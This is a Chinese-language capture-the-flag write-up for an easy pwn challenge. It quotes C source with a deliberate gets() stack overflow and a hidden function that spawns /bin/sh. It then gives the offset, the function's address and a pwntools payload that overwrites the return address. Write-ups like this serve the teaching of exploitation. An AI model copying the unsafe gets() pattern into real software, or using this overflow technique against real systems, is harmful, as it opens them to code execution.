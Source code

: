 # ManagementSystem

## Information

- `MyFirstCTF` `Easy`
- `Pwn`

這個系統，看起來好像有點問題...。請利用你的技能和知識，找到漏洞並利用它們吧！

flag format : FLAG{xxx}

Author : Richard ( dogxxx)

## Solution

題目有提供 src，可以從其中進行 code review 觀察。

- src
    ```c
    ...
    void secret_function() {
    printf("Congratulations! You've successfully executed the secret function.\n");
    char *shell_args[] = {"/bin/sh", NULL};
    execv(shell_args[0], shell_args);
    }
    ...
    User *delete_user(User *head) {
    printf("Enter the index of the user you want to delete: ");
    char buffer[64];
    gets(buffer); 
    ...
    ```

查看 src，可以發現 `delete_user` 中存在一個 `gets()`，代表這個地方肯定很好用，並且會發現一個很好的跳轉點。

- 為了能觸發 `gets()` ，需要先將前面的資訊輸入完成，才能觸發這裡。
    ```
    Choose an option:
    1. Add user
    2. Show users
    3. Delete user
    4. Exit
    >
    ```

- gdb 後抓 offset 為多少。
    - offset=12*8+8

- 因為 PIE 沒開，所以可以找出 `secret_function` 的位址為多少。
    - secret_function_address = 0x000000000040131b

- payload
    ```py
    # payload 1 (add user)
    p.sendlineafter(b'> ', '1')
    p.sendlineafter(b'Enter username (max 31 characters):', b'a')
    p.sendlineafter(b'Enter user account (max 15 characters):', b'a')
    p.sendlineafter(b'Enter user password (max 15 characters):', b'a')
    
    #gdb.attach(p)
    
    # payload 2 (crack gets)
    p.sendlineafter(b'> ', '3')
    p.sendlineafter(b'Enter the index of the user you want to delete:', b'a'*8*13+p64(secret_function_address))
    ```
